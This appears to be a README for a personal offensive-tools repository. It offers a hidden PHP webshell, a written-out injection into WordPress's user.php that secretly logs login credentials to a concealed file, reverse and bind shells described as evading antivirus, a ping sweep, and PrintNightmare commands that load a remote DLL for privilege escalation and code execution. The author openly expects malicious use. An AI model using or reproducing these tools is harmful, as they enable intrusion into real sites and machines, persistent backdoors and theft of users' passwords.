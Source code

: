 # JustRepository

Testing project

## Getting Started

These are some repository tools and code I made for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login (kind of keylogger). Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh
Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```
### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited RCE or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (atleast until today it created). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Default pipe from script will bind up to 5 connection. Will compile in stealth mode (no cmd pop up and running in background) if I has to use in real world and will mutate encoding base64 using tool from neetspooky base64 mutate. Run bind-dxntboy-8282.exe file and connect via ncat
```
nc <target> 8282
```

### SharpPrintNightmare.exe
```
* **NullByte** - *CVE-2021-1675* - [SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675)
 #LPE
C:\SharpPrintNightmare.exe C:\addCube.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
 ```
